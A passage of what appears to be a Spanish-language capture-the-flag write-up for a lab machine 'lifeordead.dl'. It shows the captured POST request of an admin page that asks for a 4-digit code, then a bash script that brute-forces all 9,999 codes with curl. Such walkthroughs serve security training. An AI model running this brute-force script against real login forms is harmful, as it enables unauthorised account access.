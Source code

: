 el cual nos pide un código de 4 dígitos. Al enviar un código podemos ver en las devtools que hace la siguiente solicitud POST:

```css
-----------------------------231428419341048985063330404590
Content-Disposition: form-data; name="code"

1111
-----------------------------231428419341048985063330404590--
```

además de que lo hace al archivo `pageadmincodeloginvalidation.php`. Viendo esto, podemos hacer 2 cosas para obtener el código correcto:

• Usar burpsuite: Es un poco lento si tienes la versión community.

• Crear un script en python o en bash: Es mucho mas rápido en casos como este.

### Bash scripting

En mi caso yo decidí crear un script en bash el cual genera una lista de números y luego prueba de 1 en uno para obtener el correcto:

```bash
#!/bin/bash



echo -e "Verificando que exista el binario seq..."
if ! command -v seq > /dev/null &>/dev/null; then
  echo -e "El binario seq no existe, instalelo y vuelva a intentar"
fi

ls number_wordlist > /dev/null &>/dev/null
if [ $? != "0" ]; then
  echo -e "La wordlist no existe, procediendo con la creación"
  seq -f "%04g" 1 9999 > number_wordlist
else
  echo -e "La wordlist existe... continuando"
fi


salir(){
  echo -e "Saliendo..."
  rm ./number_wordlist
  exit 0
}


wordlist="./number_wordlist"
intentos=0
lineas=$(wc -l number_wordlist | awk '{print $1}')


while read -r number; do
  if [ $(curl -X POST "http://lifeordead.dl/pageadmincodeloginvalidation.php" -d "code=$number" -s /dev/null | grep -c failed) != 1 ]; then
    echo -e "Código encontrado: $number"
    rm ./number_wordlist
    exit 0
  fi
  intentos=$(($intentos+1))
  echo -ne "$intentos/$lineas\r"
done < "$wordlist"
```
